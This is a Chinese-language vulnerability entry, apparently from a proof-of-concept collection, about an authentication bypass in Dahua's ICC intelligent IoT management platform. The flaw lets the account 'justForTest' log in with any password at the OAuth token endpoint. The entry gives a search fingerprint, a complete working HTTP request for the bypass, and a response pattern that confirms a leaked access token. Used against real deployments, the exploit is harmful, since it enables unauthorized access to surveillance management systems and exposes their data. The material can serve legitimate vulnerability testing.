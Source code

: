 ﻿# 大华智能物联综合管理平台ICC justForTest用户登录漏洞

> 更新时间：2023-12-13

> 漏洞编号：

> 漏洞说明：浙江大华技术股份有限公司智能物联综合管理平台 用户登录接口/evo-apigw/evo-oauth/oauth/token存在漏洞，使用用户justForTest/任意密码即可成功登录平台，造成信息泄露。

> 漏洞特征：body="*客户端会小于800*"

> 验证脚本：HTTP

```
POST /evo-apigw/evo-oauth/oauth/token HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=justForTest&password=1&grant_type=password&client_id=web_client&client_secret=web_client&public_key=
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?success)(?=.*?access_token).*?$

> 上传文件定位：


> 验证文件来源：大华智能物联综合管理平台ICC justForTest用户登录漏洞.poc
